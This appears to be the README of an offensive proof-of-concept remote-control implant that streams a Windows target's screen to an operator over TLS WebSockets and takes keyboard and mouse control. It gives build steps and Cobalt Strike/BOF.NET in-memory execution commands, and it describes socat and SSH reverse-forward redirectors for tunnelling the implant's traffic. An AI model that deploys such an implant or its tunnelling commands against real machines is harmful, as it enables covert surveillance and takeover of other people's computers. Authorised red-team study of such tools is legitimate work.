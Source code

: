 # CONTAINS LINUX SERVER ONLY, FOR WINDOWS SERVER GO TO ORIGINAL REPO

# Reinschauer

![Hello](https://github.com/ps1337/reinschauer/blob/main/server/reinschauer.jpg?raw=true)

A PoC to remotely control Windows machines over Websockets. Check out [my blog](https://bananamafia.dev/post/reinschauer/) for a writeup.

![Hello](https://github.com/ps1337/reinschauer/blob/main/res/reinschauer.gif?raw=true)

- Can be executed as Go exe, .NET/C# exe and in-memory using [BOF.NET](https://github.com/CCob/BOF.NET) and Cobaltstrike.

![Hello](https://github.com/ps1337/reinschauer/blob/main/res/reinschauer_start.png?raw=true)

- Traffic can be tunneled via an interactive Beacon connection.
- Other than most HVNC implementations, `reinschauer` converts raw bitmaps to JPEG and compresses the resulting data before sending it across the network to reduce frame size.
- FPS and quality settings can be dynamically changed via the GUI. These affect the implant, so that network traffic is reduced. Dynamic scaling allows using this tool as an implant for machines with large screens.

![Hello](https://github.com/ps1337/reinschauer/blob/main/res/goodquality.gif?raw=true)

- Basic mouse and keyboard controls are possible.
- You can use the script in the `server` folder to generate TLS server files or bring your own.
- The server window can be resized freely, while click events should™ be translated to the correct pixel on the target machine.
- Use `reinschauer-server -h` for available options.

## Protocol

```
+----------------------------------------------------------------------------------------+
|                                                                                        |
|                                                                                        |
|                  +----------------------------------------------------+                |
|                  |#1: Type (Binary or Text)                           |                |
|                  |    Binary: JPG Frame                               |                |
|                  |                                                    |                |
|                  |#2: Text                                            |                |
|                  |    ELO (Ping)                                      |                |
|                  |    FPS <FPS Count>                                 |                |
|                  |    SCL <Scaler Count>                              |                |
|                  |    QUL <JPG Quality>                               |                |
|                  |    LCL X Y (Left Click + Coordinates)              |                |
|                  |    RCL X Y                                         |                |
|                  |    KEY <Char>                                      |      xxxxxx    |
|       xxxxx   <--+----------------------------------------------------+--> xxxx   xx   |
|       x   xx                     Websockets via TLS                        xx       x  |
| x     xxxxxx                                                                xxxxxxxxx  |
| xxx     x   xx                                                          xx    x        |
|     xxxxxxxx                                                              xxxxx xxxxxx |
|         x                                                                   xxxxx      |
|         xx                                                                   xx        |
|         x xx                                                                 xxx       |
|        xx  xx                                                                x xx      |
|        x    xx                                                              xx  xxx    |
|       x      xx                                                             x     xx   |
|       x       x                                                            xx      x   |
+----------------------------------------------------------------------------------------+
```

## FAQ

**How to build?**

- Install a new version of golang, `>=1.18`
- For debian-based distros: `sudo apt -y install libx11-dev libxcursor-dev xorg-dev libgl1-mesa-dev`

```bash
$ cd client && GOOS=windows GOARCH=amd64 go build
$ cd server && GOOS=linux GOARCH=amd64 go build
```

I've included a pre-built and standalone version of the dotnet variant in this repo. If you want to build it yourself, use the Visual Studio project file to build the x64 Release variant. If it doesn't happen automatically, download the required NuGet packages for the project via Visual Studio. Your target system most likely doesn't have these packages installed as well and therefore DLLs may be missing when executing the resulting exe on the target. To get around this, this project automatically invokes `ILMerge.exe` to bundle the resulting exe along with the required libraries. Therefore, use the generated file called `reinschauer-dotnet-standalone.exe` on targets.

> You may have to `go get` stuff before. Use `-ldflags -H=windowsgui` to disable to console window.

**Who's the client/server?**

> The `client` is executed on the target (Windows) machine. The `server` component is executed on the tester's (Linux) machine. It listens on `0.0.0.0:6969` by default. Both the Golang and C# client are compatible with the server.

**Is this a HVNC / Hidden Desktop?**

> No. It uses the same Desktop as the user.

**Some keys and key combinations do not work, pls fix**

> I know that |, @ and § might not work currently, at least on my german potato keyboard. Pls Fix.

**The Client uses too much CPU Time**

> Using a lower FPS value may work.

**I don't have a direct connection between `client` and `server`**

> You can use a CobaltStrike Beacon to tunnel traffic.

**I don't have Cobaltstrike!**

> Use a `socat` redirector like:

```bash
socat TCP4-LISTEN:1337,fork TCP4:127.0.0.1:6969
ssh -R 6969:localhost6969 <IP>
```

> and start the client with the required parameters or hardcode them.

## Notes Regarding BOF.NET and Cobaltstrike Usage

First, set up [BOF.NET](https://github.com/CCob/BOF.NET) according to the manual. Also, load the standalone exe with `bofnet_load <Path to Exe>`. Then, decide how to use Reinschauer:

1. You can tunnel the traffic across an active Beacon connection.
2. You can send traffic to any other Internet-facing server

### Tunnelling Traffic via Beacon

- Set the session to interactive: `sleep 0`.
- Set up remote port forwarding: `rportfwd_local 6969 127.0.0.1 6969`.
- Execute Reinschauer in background: `bofnet_job reinschauer_dotnet.BofStuff`. This automatically causes Reinschauer to connect to `127.0.0.1:6969` on `127.0.0.1` of the target machine. This also deactivates TLS, since it uses the Beacon connection anyway.
- To kill Reinschauer, use `bofnet_jobkill <Job ID>`.

### Sending Traffic to Another Server

- Execute Reinschauer in background: `bofnet_job reinschauer_dotnet.BofStuff <Server IP> <Server Port> true`. The boolean parameter enables TLS usage.
- To kill Reinschauer, use `bofnet_jobkill <Job ID>`.


Then, use SSH and the [GatewayPorts](https://man.openbsd.org/sshd_config#GatewayPorts) feature: Add `GatewayPorts: clientspecified` to `sshd_config` and restart the SSH server. Then, `ssh -R '0.0.0.0:8080:localhost:6969'' [...]` will make your local port `6969` available on `0.0.0.0:8080`. Be careful :)

Or, set up a `socat` redirector on the Server:

```bash
socat TCP4-LISTEN:<Server Port>,fork TCP4:127.0.0.1:6969
ssh -R 6969:localhost6969 <IP>
```
